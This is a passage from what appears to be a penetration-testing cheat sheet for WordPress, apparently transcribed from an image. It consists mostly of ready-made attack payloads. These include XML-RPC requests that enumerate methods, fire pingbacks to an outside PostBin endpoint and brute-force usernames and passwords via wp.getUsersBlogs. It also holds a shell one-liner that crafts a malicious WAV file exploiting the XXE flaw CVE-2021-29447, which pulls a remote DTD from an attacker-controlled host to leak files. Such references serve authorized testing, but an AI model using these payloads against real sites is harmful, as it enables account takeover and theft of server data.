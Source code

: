     <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>system.listMethods</methodName> 
    <params></params> 
    </methodCall>
    ```

- **Ping Back**

    Use **[PostBin](https://www.toptal.com/developers/postbin/)** to confirm the results.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?>
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params>
    <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
    <param><value><string>http://vulnerable.com</string></value></param>
    </params>
    </methodCall>
    ```

- **User Enumeration**

    It’s recommended to use Burp Intruder or Turbo Intruder for brute forcing username/password.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>wp.getUsersBlogs</methodName> 
    <params>
    <param><value>{username}</value></param>
    <param><value>{password}</value></param>
    </params> 
    </methodCall>
    ```

<br />

## XXE (CVE-2021-29447)

If you have a normal user credential, upload the exploitable media (.WAV) with XXE and reveal sensitive information.  
First off, create **"exploit.wav"**.

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<local-ip>:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav
```
